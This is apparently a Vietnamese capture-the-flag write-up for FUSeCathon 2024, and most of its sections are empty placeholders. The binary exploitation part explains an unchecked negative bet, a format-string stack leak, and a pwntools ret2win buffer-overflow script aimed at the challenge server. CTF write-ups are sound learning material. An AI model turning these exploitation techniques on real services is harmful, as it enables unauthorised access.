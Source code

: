 ```yaml
---
title: "Write up FUSeCathon 2024"
---
```


# Introduction

This is the write-up for the FUSeCathon 2024.

# Reverse Engineering
---
## RE1

<write here>

---
## RE2

<write here>

---

## RE3

<write here>

---

## MiniSteg

<write here>

---

## Horrible childhood memories

<write here>

---

## Nothing there

<write here>

---

## mov

<write here>

---

# Cryptography

---

## CRYPTO

<write here>

---

## Passio

<write here>

---

# Web

---

## IsH0wSp33d

<write here>

---

## web-secu-challenge

<write here>

---

## wsproblem

<write here>

---

## donottrust

<write here>

---

## Checkpoint

<write here>

---

## save-the-changes

<write here>

---

## Hells-Lab

<write here>

---

## Kotlin App

<write here>

---

## web-the-mindfullness-inside

---

# Binary Exploitation

---

## cards

![image](https://hackmd.io/_uploads/ByDR6xKXA.png) <br>
![image](https://hackmd.io/_uploads/Hyu_5S_Q0.png) <br>
![image](https://hackmd.io/_uploads/BkrK9rumR.png) <br>
![image](https://hackmd.io/_uploads/SJHvqrdXC.png) <br>
![image](https://hackmd.io/_uploads/S1ASnHOmA.png) <br>

Ở đây hàm `get_int` được sử dụng khá nhiều để lấy số input, rồi sử dụng `atoi` để chuyển input thành int. Tuy nhiên khi nhập số tiền vào thì nó chỉ check `if ( v4 * v3 > current_gold )` nghĩa là số tiền của mình có lớn hơn số tiền hiện tại không, chứ không check số tiền đầu vào có **âm** không -> `integer overflow`. <br>
![image](https://hackmd.io/_uploads/SJDUTSdX0.png)
Vậy nên ta đơn giản chỉ cần input số âm vào và chơi thua là có tiền :flushed: <br>
![image](https://hackmd.io/_uploads/HyJVCBuQC.png)

---

## pwn-challenge

![image](https://hackmd.io/_uploads/HkiZAltXR.png) <br>

Bài này là dạng blackbox, ta phải exploit mà không có source. Hint là buffer overflow nhưng lỗi ở đây lại là format string :angry: 
Ta đơn giản chỉ cần input một loạt `%lx` vào để lấy data từ stack <br>
![image](https://hackmd.io/_uploads/Syt4ybFmA.png) <br>
![image](https://hackmd.io/_uploads/rkdS1btXA.png) <br>

---

## pwnme
![image](https://hackmd.io/_uploads/SklwybtXC.png) <br>
![image](https://hackmd.io/_uploads/S1CYkWKQR.png) <br>

Nhìn qua thì nó chỉ là buffer overflow ret2win đơn giản, ta chỉ cần tìm offet của `ret` và cho địa chỉ hàm `hacked()` vào. <br>

![image](https://hackmd.io/_uploads/rk8ZgbK7C.png) <br>
```python
#!/usr/bin/python3

from pwn import *

exe = ELF('pwn_1', checksec=False)
libc = exe.libc
context.binary = exe

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''


        c
        ''')
        input()


if args.REMOTE:
    p = remote('challenge.fuctf.com', 8001)
else:
    p = process(exe.path)
# GDB()

payload = b'A'*24 + p64(exe.sym.hacked + 1)
sla(b'Name:\n', payload)

p.interactive()

```
Sau khi chương trình nhày vào hàm `hacked`,lúc `push rbp` thì do stack ko chia hết cho 16 nên sẽ bị sigsegv ở `$xmm1` nên ta sẽ nhảy vào địa chỉ hàm đó + 1. <br>
![image](https://hackmd.io/_uploads/SJA4GZFQ0.png)

---

## brain@#(S

<write here>

---

# Forensics
---
## Database Attack Analyzing

<write here>

---

## Basic Steganography

<write here>

---

## No suspicious

<write here>

---

## Ransomware recovery

<write here>

---

# Miscillaneous

---

## FIA love regex

<write here>

---
